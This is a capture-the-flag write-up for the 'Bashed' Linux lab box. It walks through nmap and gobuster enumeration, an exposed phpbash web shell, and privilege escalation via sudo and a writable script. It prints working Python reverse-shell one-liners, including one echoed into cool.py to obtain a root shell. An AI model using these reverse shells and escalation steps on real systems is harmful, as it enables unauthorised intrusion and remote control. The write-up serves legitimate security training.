










# Bashed - Linux (Easy)

## Summary

This box is inspired by [Phpbash by Arrexel](https://github.com/Arrexel/phpbash), a standalone, semi-interactive web shell. This is a fairly quick and straightforward box and as a result, this will be a relatively short writeup. 

### Enumeration

I began Enumeration by running a Nmap script on the target which only indicated that HTTP (Port 80) was worth checking out. 

```
sudo nmap -sV -sC -A -T4 $machine_IP -vv

-sV Version Scan
-sC - Script Scan
-A - Aggresive Scan
-T4 - Aggresive Timing Template
-vv - very verbose
```




### Gobuster Recon

Enumerating Port 80, I ran Gobuster on the target, specifying certain extensions - `.php, .js, .html, .txt`

```
sudo gobuster dir -u "$machine_IP" -w "wordlist" -t50 -x php,js,html,txt

"-w" - specify wordlist
"-t 50" - 50 Threads
"-x" - flag to specify directory extensions
```



This provided a variety of directories mapped to the target. Meanwhile, I manually crawled the target and making the connection between the [GitHub Repo](https://github.com/Arrexel/phpbash) and the target set me up well for what was to come.



Traversing through the results of the Gobuster scan led me to `/dev` which contained `phpbash.php`. 



Executing Phpbash gave me a web based shell providing me with a `www-data` user foothold with the `user.txt` flag being present


Despite getting a user shell, it is important to note that this is all still being done on the web shell. The next step en route to Privilege Escalation is to upgrade the web shell to one that is interactive from the attacker's machine. This is done by running the following reverse shell on the victim piped to a particular port while having a netcat listener on the attacker's machine on the same port. 

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$machine_IP","LPORT"));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

The shell received is less than stable so I spawned a TTY shell

```
python -c 'import pty; pty.spawn("/bin/sh")'
```



## Privilege Escalation

After getting the user flag, I ran `sudo -l` on the target to identify what can be run as the root user, which shows that the user can run the `scriptmanager` scripts without requiring root access.



I was able to move to the `scriptmanager` directory with the following command to get a bash shell 

```
sudo -u scriptmanager /bin/bash
```

After getting access to the scripts in the directory, I recycled the reverse shell payload by changing the LPORT number from the initial reverse shell to get user foothold and appending it to the end of `cool.py`.

```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"$machine_IP\","LPORT"));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > cool.py
```



To catch the shell, I had a netcat listener on the same port, which allowed me to get a root shell and capture the root flag.





### Completion

